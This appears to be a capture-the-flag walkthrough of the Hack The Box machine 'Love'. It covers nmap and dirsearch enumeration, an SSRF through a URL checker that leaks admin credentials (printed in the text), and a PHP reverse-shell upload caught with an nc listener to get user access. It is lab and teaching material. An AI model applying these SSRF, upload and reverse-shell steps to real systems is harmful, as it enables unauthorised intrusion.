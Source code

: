 ## --------->> Love <<-----------

// We start with nmap scan 

    $ nmap -sV -A -Pn 10.10.10.239 -p-
-----

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 15:17 EDT
    Nmap scan report for 10.10.10.239
    Host is up (0.29s latency).
    Not shown: 65516 closed ports
    PORT      STATE SERVICE      VERSION
    80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    3306/tcp  open  mysql?
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, X11Probe: 
    |_    Host '10.10.16.238' is not allowed to connect to this MariaDB server
    5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    5040/tcp  open  unknown
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    | ssl-cert: Subject: commonName=LOVE
    | Subject Alternative Name: DNS:LOVE, DNS:Love
    | Not valid before: 2021-04-11T14:39:19
    |_Not valid after:  2024-04-10T14:39:19
    |_ssl-date: 2021-07-10T20:10:04+00:00; +32m46s from scanner time.
    | tls-alpn: 
    |_  http/1.1
    7680/tcp  open  pando-pub?
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC

    Host script results:
    |_clock-skew: mean: 2h17m46s, deviation: 3h30m01s, median: 32m45s
    | smb-os-discovery: 
    |   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
    |   OS CPE: cpe:/o:microsoft:windows_10::-
    |   Computer name: Love
    |   NetBIOS computer name: LOVE\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-07-10T13:09:46-07:00
    | smb-security-mode: 
    |   account_used: <blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-07-10T20:09:44
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1193.79 seconds
    
    
// We got a lot of info. lets first check web page (Port:80) Navigate in browser to http://10.10.10.239/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/1.png)

// Lets search for interesting directories in the website, for that we will use tool called ![dirsearch.py](https://github.com/maurosoria/dirsearch)

    $ python3 dirsearch.py -u http://10.10.10.239/ -i 100-400 -t 150
-----

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.239/_21-08-04_05-13-01.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-04_05-13-01.log

    Target: http://10.10.10.239/

    [05:13:01] Starting: 
    [05:13:12] 301 -  337B  - /ADMIN  ->  http://10.10.10.239/ADMIN/
    [05:13:12] 301 -  337B  - /Admin  ->  http://10.10.10.239/Admin/
    [05:13:20] 301 -  337B  - /admin  ->  http://10.10.10.239/admin/
    [05:13:20] 200 -    6KB - /admin%20/
    [05:13:20] 301 -  338B  - /admin.  ->  http://10.10.10.239/admin./
    [05:13:20] 200 -    6KB - /admin/
    [05:13:20] 200 -    6KB - /admin/?/login
    [05:13:21] 200 -    6KB - /admin/index.php
    [05:13:21] 302 -    0B  - /admin/login.php  ->  index.php
    [05:13:21] 302 -   16KB - /admin/home.php  ->  index.php
    [05:13:31] 301 -  348B  - /bower_components  ->  http://10.10.10.239/bower_components/
    [05:13:32] 200 -    7KB - /bower_components/
    [05:13:37] 301 -  336B  - /dist  ->  http://10.10.10.239/dist/
    [05:13:37] 200 -    1KB - /dist/
    [05:13:41] 302 -    0B  - /home.php  ->  index.php
    [05:13:42] 301 -  338B  - /images  ->  http://10.10.10.239/images/
    [05:13:42] 200 -    2KB - /images/
    [05:13:42] 200 -    2KB - /includes/
    [05:13:42] 301 -  340B  - /includes  ->  http://10.10.10.239/includes/
    [05:13:42] 200 -    4KB - /index.php/login/
    [05:13:42] 200 -    4KB - /index.php
    [05:13:45] 302 -    0B  - /login.php  ->  index.php
    [05:13:46] 302 -    0B  - /logout.php  ->  index.php
    [05:13:53] 301 -  339B  - /plugins  ->  http://10.10.10.239/plugins/
    [05:13:53] 200 -    2KB - /plugins/

    Task Completed


// We got some intersting directories, but didnt get a lot out of them...

// Moving on... 

// in nmap scan we got a subdomain 

    ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    
// lets add him to /etc/hosts

    $ sudo nano /etc/hosts
-----

    $ cat /etc/hosts
    10.10.10.239	staging.love.htb

// Navigating to http://staging.love.htb/ present us a File checker website 

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/2.png)

// Clicking on the demo button on the top present us a tab when we can insert a url for check

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/3.png)

// inserting http://10.10.10.239/ to the tab, its seems that it represent us with the page content

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/4.png)

// since we know there is a http service running on port 5000 and his status code is 403(Forbbiden)

// lets try to see the site content with that url checker

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/5.png)

// not much, but, remember that we run on the subdomain so change the url to http://localhost:5000/ or http://127.0.0.1:5000/ (Loopback)

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/6.png)

// We got admin credentials !!!

    admin : @LoveIsInTheAir!!!!

// Trying to login at http://10.10.10.239/ didnt work 

// So, we remeber(from directory search) that there is a directory called http://10.10.10.239/admin/

// Trying login again, and it worked !, we represented with the 'vote website' admin dashboard

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/7.png)

// Digging in the deshboard i notice there is a option to update admins picture

// click on the admin picture on the top >> click 'Update'

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/8.png)

// Then we have a upload button

![Image 9](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/9.png)

// Download a PHP reverse shell from https://www.revshells.com with recipe 'PHP Ivan Sincek'(for Windows)

![Image 10](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/10.png)

// Open a listiner with nc and upload the file

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.17.8] from (UNKNOWN) [10.10.10.239] 62160
    SOCKET: Shell has connected! PID: 2824
    Microsoft Windows [Version 10.0.19042.867]
    (c) 2020 Microsoft Corporation. All rights reserved.

    C:\xampp\htdocs\omrs\images> whoami
    love\phoebe

// We got user flag !!!

    C:\Users\Phoebe\Desktop> type user.txt
    5a55228............................

// 

[AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)






